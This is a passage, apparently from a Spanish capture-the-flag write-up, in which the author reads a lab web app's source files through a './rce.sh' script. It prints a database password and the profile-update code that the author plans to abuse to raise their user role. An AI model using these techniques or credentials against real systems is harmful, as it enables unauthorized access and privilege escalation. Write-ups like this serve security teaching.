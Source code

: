 Y con el index.php deduzco que ese "2" en "You are logged in as user 2!" cuando me logeo con aaron lo saca del campo userid:
```php
<?php
include_once "header.php";
?>

<h1 class="text-center" style="padding: 200px">You are logged in as user <?php echo $_SESSION['userid']; ?>!</h1>

<?php
include_once "footer.php";
?>
```
Si puedieramos cambiarlo a 1 estaría guay.  
En login.php encuentro este otro archivo db_conn.php.
```bash
> ./rce.sh db_conn.php
> cat db_conn.php
```
```php
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```
Pruebo esas credenciales para conectarme por ssh y por el panel de usuario tanto con el usuario root como con el usuario aaron pero nada.

En profile.php encuentro js/profile.js:
```js
function updateProfile() {
    var xml = new XMLHttpRequest();
    xml.onreadystatechange = function () {
        if (xml.readyState == 4 && xml.status == 200) {
            document.getElementById("alert-profile-update").style.display = "block"
        }
    };

    xml.open("POST", "profile_update.php", true);
    xml.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xml.send("firstName=" + document.getElementById("firstName").value + "&lastName=" + document.getElementById("lastName").value + "&email=" + document.getElementById("email").value + "&company=" + document.getElementById("company").value);
}
```
Y en este js encontramos el archivo **profile_update.php**, aquí esta la clave para intentar cambiarnos el rol de 2 a 1:
```php
<?php

include "auth_check.php";

$error = "";

if (empty($_POST['firstName'])) {
    $error = 'First Name is required.';
} else if (empty($_POST['lastName'])) {
    $error = 'Last Name is required.';
} else if (empty($_POST['email'])) {
    $error = 'Email is required.';
} else if (empty($_POST['company'])) {
    $error = 'Company is required.';
}

if (!empty($error)) {
    die("Error updating profile, reason: " . $error);
} else {
```